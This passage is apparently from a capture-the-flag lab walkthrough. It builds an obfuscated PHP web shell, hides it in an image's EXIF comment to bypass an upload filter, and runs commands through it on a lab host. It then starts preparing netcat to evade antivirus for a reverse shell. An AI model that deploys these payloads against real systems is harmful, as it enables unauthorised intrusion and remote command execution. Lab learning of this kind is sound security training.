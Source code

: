 ```php
<?php $p0=$_GET[base64_decode('d3JlYXRo')];if(isset($p0)){echo base64_decode('PHByZT4=').shell_exec($p0).base64_decode('PC9wcmU+');}die();?>
```

However, since it will be interpreted in bash we need to escape the dollar signs that might be read as variables.

```php
<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>
```

Let's go ahead and use exiftool again but this time, embed our final payload into the comments.

```
exiftool -Comment="<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>" shell-USERNAME.jpeg.php
```

Finally, upload the shell!

**1) What is the Host Name of the target?**

Now, let's test it out using the wreath GET parameter.

```
http://10.200.72.100/resources/uploads/shell-USERNAME.jpeg.php?wreath=systeminfo
```

We get the answer to #1 from this command.

**2) What is our current username (include the domain in this)?**

We can run a whoami through the webshell to get this.

## Task 40 [AV Evasion]: Compiling Netcat & Reverse Shell!

Now that we have a user, let's attempt to reverse the connection and get a reverse shell to do some privilege escalation.

Now we need to do some research to find a netcat binary that wont get caught by defender.

Other options include [Veil Framework](https://www.veil-framework.com/) or [shellter](https://www.shellterproject.com/).

Let's clone the intox33's repository and see if it will pass the Windows Defender AV.

```
git clone https://github.com/int0x33/nc.exe/
```

Start up a webserver on your attacking machine.

```
sudo python3 -m http.server 80
```

Now we have to decide how to upload the netcat.

* Powershell (risky with AMSI).
* File upload point to upload a unrestricted PHP file uploader.
* Look for curl or certutil on the target.
